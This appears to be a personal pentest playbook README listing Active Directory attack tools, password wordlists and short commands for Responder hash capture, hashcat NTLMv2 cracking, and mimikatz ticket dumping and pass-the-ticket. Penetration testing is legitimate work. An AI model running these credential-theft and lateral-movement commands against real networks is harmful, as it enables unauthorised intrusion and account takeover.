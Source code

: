 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder

### breach-parse
https://github.com/hmaverickadams/breach-parse

## Wordlists bby
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (4.2 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt

### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Big ass p-list

https://download.g0tmi1k.com/wordlists/large/b0n3z-wordlist-sorted-something.tar.gz (165 GB)

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password>
```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./mapp> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount.cifs <./mapp>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## Nmap
* in the making 

## Zero Logon
* in the making 
## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```
### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
